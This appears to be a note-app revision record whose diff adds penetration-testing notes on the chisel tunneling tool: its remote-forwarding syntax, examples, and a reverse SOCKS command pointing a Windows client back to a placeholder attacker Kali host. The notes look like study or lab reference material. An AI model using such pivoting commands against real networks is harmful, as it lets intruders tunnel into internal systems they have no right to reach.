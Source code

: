 id: ea5f7f079b0945d5832e739c05e254d3
parent_id: 3f5700b14b0346c7bcb13c940d3532ea
item_type: 1
item_id: 41f15369905441ee846f3f0266b97d27
item_updated_time: 1658218540941
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"9c851)\\\n\\\n\"],[1,\"`<remote>s are remote connections tunneled through the server, each of which come in the form: <local-host>:<local-port>:<remote-host>:<remote-port>/<protocol> ■ local-host defaults to 0.0.0.0 (all interfaces). ■ local-port defaults to remote-port. ■ remote-port is required*. ■ remote-host defaults to 0.0.0.0 (server localhost). ■ protocol defaults to tcp. which shares <remote-host>:<remote-port> from the server to the client as <local-host>:<local-port>, or: R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol> which does reverse port forwarding, sharing <remote-host>:<remote-port> from the client to the server's <local-interface>:<local-port>. example remotes 3000 example.com:3000 3000:google.com:80 192.168.0.5:3000:google.com:80 socks 5000:socks R:2222:localhost:22 R:socks R:5000:socks stdio:example.com:22 1.1.1.1:53/udp`\\\n\\\n\"],[0,\"# Dynami\"]],\"start1\":145,\"start2\":145,\"length1\":16,\"length2\":872},{\"diffs\":[[0,\" R:socks\"],[1,\"\\\n> \\\n> \\\\# If socks4 is used, and port 9050 is used as proxy chains\\\n> \\\n> chisel.exe client --max-retry-count 1 KALIIP:8000 R:9050:socks \"],[0,\"\\\n\\\nLasd\"]],\"start1\":1329,\"start2\":1329,\"length1\":14,\"length2\":148}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-19T08:17:16.116Z
created_time: 2022-07-19T08:17:16.116Z
type_: 13
